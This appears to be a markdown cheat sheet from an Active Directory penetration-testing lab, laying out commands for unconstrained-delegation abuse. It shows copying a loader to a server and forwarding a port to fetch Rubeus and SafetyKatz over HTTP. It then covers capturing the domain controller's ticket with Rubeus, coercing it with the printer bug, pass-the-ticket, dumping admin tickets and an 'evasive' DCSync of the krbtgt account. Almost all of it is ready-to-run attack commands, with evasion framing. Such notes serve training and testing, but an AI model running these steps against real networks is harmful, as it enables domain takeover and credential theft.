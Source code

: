 ### Unconstrained Delegation Coercion
Coarse/Force machine accounts to connect to a machine and capture their TGT
```powershell
Get-DomainComputer -UnConstrained
```

Copy Loader over and setup portforward
```powershell
echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-appsrv\C$\Users\Public\Loader.exe 

winrs -r:dcorp-appsrv "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.48"

winrs -r:dcorp-appsrv cmd
```

Use Rubeus on App server (`dcorp-appsrv`) to capture TGT of DC machine account
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args monitor /targetuser:DCORP-DC$ /interval:5 /nowrap
```

Abuse printer bug to force the DC to connect to the App server
```powershell
C:\Users\Public\MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local
```

Copy the base64 encoded TGT, remove extra spaces (if any) and use it on your attacking host
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args ptt /ticket:<base64>
```

Perform DCsync thats OPSEC safe because it's the machine account
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```

---
### Abusing Unconstrained Delegation
Discover computers with unconstrained delegation (PowerView + AD module)
```powershell
Get-DomainComputer -UnConstrained

Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```

Compromise the server(s) where Unconstrained delegation is enabled.

Wait for a domain admin to connect to a service on `appsrv` then dump all of the tickets
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args sekurlsa::tickets /export 
```

Reuse the DA token with SafetyKatz
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args kerberos::ptt C:\Users\appadmin\Documents\user1\[0;2ceb8b3]-2-0-60a10000-Administrator@krbtgt-DOLLARCORP.MONEYCORP.LOCAL.kirbi
```

Copy the base64 encoded TGT, remove extra spaces (if any) and use it on your attacking host
```powershell
.\Loader.exe -path .\Rubeus.exe -args ptt /ticket:<base64>
```

Perform DCsync thats OPSEC safe because it's the machine account
```powershell
.\Loader.exe -path .\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```
